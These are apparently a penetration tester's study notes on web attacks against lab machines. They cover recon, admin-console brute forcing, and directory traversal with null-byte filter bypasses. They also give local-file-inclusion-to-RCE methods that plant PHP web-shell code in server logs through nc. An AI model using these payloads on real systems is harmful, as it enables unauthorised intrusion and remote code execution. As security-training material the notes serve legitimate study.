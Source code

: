 # Web Attacks!
## General Process:  

	  Always try to Find the Application Version!!
	  Tools:
	    burpsuite (set up w/ foxyproxy extension)
	    cookie editor extension
	  Things to Check:
		Source code
			comments, urls, hard-coded credentials, functions, etc.
		Browser Dev Tools->Network Headers->Response Headers->server versions, etc.
		Cookies
		Requests & responses in burpsuite -> try to break things & produce errors
		Input boxes:
			code injection ( ; id)
			sql injection (' or ")
			xss (<script>alert(‘XSS’)</script>)
		URLs: look for strange parameters, file extensions, etc.
		Anywhere to edit content? - php themes, etc.
		Anywhere to upload files? - profile picture, plugins, etc.  

## Admin Consoles:  

	Look up default credentials
	See password attacks page
		brute force, try scraping from website
		Creating brute-force password lists: Crunch, Cewl (website-crawler)
		Scraping emails from website:  cewl -n -e --email_file mailid.txt http://sneakycorp.htb
	PHP login bypass in burpsuite:  username=admin&password[]=

## URL Techniques:  

    LFI/Directory Traversal:  php 'include' statement means code is executed            
        ex. ?page=/../../../../../etc/passwd OR ?file=c:\windows\system32\drivers\etc\hosts 
        See LFI Interesting Files
		Windows:  https://notchxor.github.io/oscp-notes/4-win-privesc/15-LFI-FILES/
        LFI Cheat Sheat/reverse shell methods:  https://highon.coffee/blog/lfi-cheat-sheet/  
        PHP Wrapper Method:
		Cheat sheet:  https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols
        	ex. http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
	Filter Bypass Examples:  
		req.params["0"].split("../").join("")  ->  ....//....//....//....//....//etc//passwd
		../../../../../boot.ini%00.jpg
		../../../../../etc/passwd%0a.jpg
		../../../../../etc/passwd%00
    LFI TO RCE:
        Log poisoning
            See what logs you can include, then figure out how to get that service to log your request
            ex. log into ftp server with user of '<? php system($_GET['cmd']); ?>' , then lfi the var/log/vsftpd.log
            /var/log/apache2/access.log:   `nc 1.1.1.1 80, then GET /<?php system($_GET['cmd']);?>`
            /proc/self/environ: use burp (https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) to send malicious url with a modified user-agent
            Windows: `?file=c:\xampp\apache\logs\access.log&cmd=ipconfig   nc -nv 1.1.1.1 80 ,   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
            Email method:  https://bitvijays.github.io/LFC-VulnerableMachines.html
            LFI log contamination tactic: connect w/:  nc -nv 10.11.0.22 80, then send:  <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
            	then:  http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
    RFI: